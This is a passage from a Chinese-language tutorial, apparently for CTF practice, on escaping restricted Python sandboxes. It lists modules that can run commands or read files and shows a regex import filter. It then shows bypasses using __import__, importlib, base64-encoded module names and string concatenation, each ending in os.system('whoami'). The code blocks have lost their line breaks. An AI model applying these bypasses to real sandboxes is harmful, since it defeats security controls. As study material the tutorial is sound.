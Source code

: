 ## 沙箱逃逸概述

https://misakikata.github.io/2020/04/python-%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E4%B8%8ESSTI/#%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E6%A6%82%E8%BF%B0

沙箱逃逸就是在在一个严格限制的python环境中，通过绕过限制和过滤达到执行更高权限，甚至getshell的过程。

既然是想getshell，或者说是执行命令就需要一个可执行命令的包。可直接执行命令的模块有

```none
osptysubprocessplarformcommands
```

有些时候，比如CTF，我们并不需要去执行命令，而是去读取目录下的flag文件即可，也就是说需要文件读取的模块来执行，常用的文件读取模块：

```none
fileopencodecsfileinput
```

不过其中file只在python2中执行，左2右3。

![image-20200421092433264](assets/20200424150419.png)

## 函数导入限制和绕过

### import

一个受限制的环境，禁止导入敏感的包是最常见的方法，所以import一般是最容易被限制掉。

```none
import re,syspattern  = re.compile('import\s+(os|subprocess)')match = re.search(pattern,sys.args[1])if match:    print "forbidden module import detected"    raise Exception
```

这种简单的限制不能导入包的形式，可以中间添加空格来绕过，或者使用其他方式导入包，比如

```none
__import__importlib
```

还可以使用编码的方式绕过对导入包关键字的检查，比如使用base64，python2中适用

```none
>>> import base64>>> base64.b64encode("os")'b3M='>>> flag = __import__(base64.b64decode('b3M='))>>> flag.system('whoami')misaki\user>>> import importlib>>> flag = importlib.import_module('b3M='.decode('base64'))>>> flag.system('whoami')misaki\user
```

或者使用字符串拼接的方式

```none
>>> __import__('o'+'s').system('who'+'ami')
```
